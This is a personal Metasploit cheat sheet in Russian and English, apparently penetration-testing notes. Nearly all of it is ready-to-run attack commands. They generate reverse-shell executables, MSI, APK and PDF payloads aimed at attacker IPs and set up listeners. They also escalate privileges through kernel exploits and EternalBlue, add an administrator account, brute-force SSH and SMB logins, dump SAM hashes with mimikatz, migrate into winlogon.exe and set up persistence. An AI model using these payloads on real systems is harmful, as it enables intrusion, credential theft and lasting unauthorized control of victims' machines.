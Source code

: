 # MetaSploit

https://habr.com/ru/companies/npoechelon/articles/347702/  (описание работы)

searchsploit desctop control   поиск эксплойта для названия

# расширение incognito для работы с токенами
в метерпретер - load incognito
   list_token -u
   
# использование эксплйтов ядра
Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe
7. Copy the generated file, shell.exe, to the Windows VM.

Windows VM

1. Execute shell.exe and obtain reverse shell

Detection & Exploitation

Kali VM

1. In Metasploit (msf > prompt) type: run post/multi/recon/local_exploit_suggester
2. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
3. In Metasploit (msf > prompt) type: use exploit/windows/local/ms16_014_wmi_recv_notif
4. In Metasploit (msf > prompt) type: set SESSION [meterpreter SESSION number]
5. In Metasploit (msf > prompt) type: set LPORT 5555
6. In Metasploit (msf > prompt) type: run

# Содаем исполнимый файл для виндовс

msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe

# Создаем реверс шелл для виндовс

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 (только дописать -->     Invoke-PowerShellTcp -Reverse -IPAddress 10.18.35.17 -Port 4545)

https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/

https://www.revshells.com/

c meterpreter сессией

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe

проверено для netcat

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.35.17 LPORT=53 -f exe -o reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер

rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set payload windows/x64/meterpreter_reverse_tcp

set PAYLOAD windows/x64/shell_reverse_tcp

Миграция в процесс

migrate -N winlogon.exe

Для АНДРОИД

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу


# Для брута 
use auxiliary/scanner/ssh/ssh_login

use auxiliary/scanner/smb/smb_login
set rhost
set 

# МИМИКАТЗ в метасплойт

kiwi_cmd lsadump::sam

Поиск уязвимостей ядра

(в метерпретер-сессии)

run post/multi/recon/local_exploit_suggester


# eternalblue в метасплойт

use exploit/windows/smb/ms17_010_eternalblue

   show payloads

set payload windows/x64/shell/reverse_tcp

# из шелла в метерпретер

post/multi/manage/shell_to_meterpreter

# Beб деливери 

use exploit/multi/script/web_delivery

set target 2

set payload windows/meterpreter/reverse_http

set lhost 1221321321
set lport 1231231

run

# настроить постоянное присутствие 

https://www.offsec.com/metasploit-unleashed/meterpreter-service/




